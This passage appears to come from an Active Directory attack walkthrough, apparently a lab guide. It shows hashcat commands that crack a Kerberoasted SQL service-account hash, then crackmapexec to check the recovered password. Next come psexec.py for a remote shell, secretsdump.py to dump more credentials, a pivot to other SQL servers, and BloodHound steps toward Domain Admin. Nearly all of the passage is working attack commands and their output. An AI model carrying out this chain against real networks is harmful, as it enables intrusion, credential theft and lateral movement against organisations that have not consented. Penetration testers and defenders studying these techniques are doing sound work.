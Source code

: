 ```bash
# Password found: SQLPass123!
```

**Alternative wordlists if rockyou fails:**
```bash
# Try common passwords first:
hashcat -m 13100 sqlservice_hash.txt /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt

# Mask attack (if you know password pattern):
# Example: Service accounts often use "Password", season, year
hashcat -m 13100 sqlservice_hash.txt -a 3 'Password?d?d?d?d' 
# Tries: Password2020, Password2021, etc.

# Combination attack:
hashcat -m 13100 sqlservice_hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

#### Step 5: Verify Credentials

```bash
# Test authentication:
crackmapexec smb SQL01.corp.local -u 'sqlservice' -p 'SQLPass123!'

SMB         SQL01.corp.local    445    SQL01            [*] Windows 10.0 Build 17763 x64 (name:SQL01) (domain:corp.local) (signing:False) (SMBv1:False)
SMB         SQL01.corp.local    445    SQL01            [+] corp.local\sqlservice:SQLPass123! (Pwn3d!)
```

✅ **"(Pwn3d!)"** = Local Admin!

#### Step 6: Exploitation

```bash
# Get shell:
psexec.py 'corp/sqlservice:SQLPass123!@SQL01.corp.local'

# Or dump more credentials:
secretsdump.py 'corp/sqlservice:SQLPass123!@SQL01.corp.local'

# Pivot to other SQL servers:
crackmapexec smb SQL02.corp.local SQL03.corp.local -u 'sqlservice' -p 'SQLPass123!' --shares
```

**Mark in BloodHound:**
1. Right-click SQLSERVICE@CORP.LOCAL node
2. Mark as Owned
3. Run: "Find Shortest Paths from Owned Principals to Domain Admins"
4. Identify next target

---

### Walkthrough 2: ACL Abuse (GenericAll Exploitation)
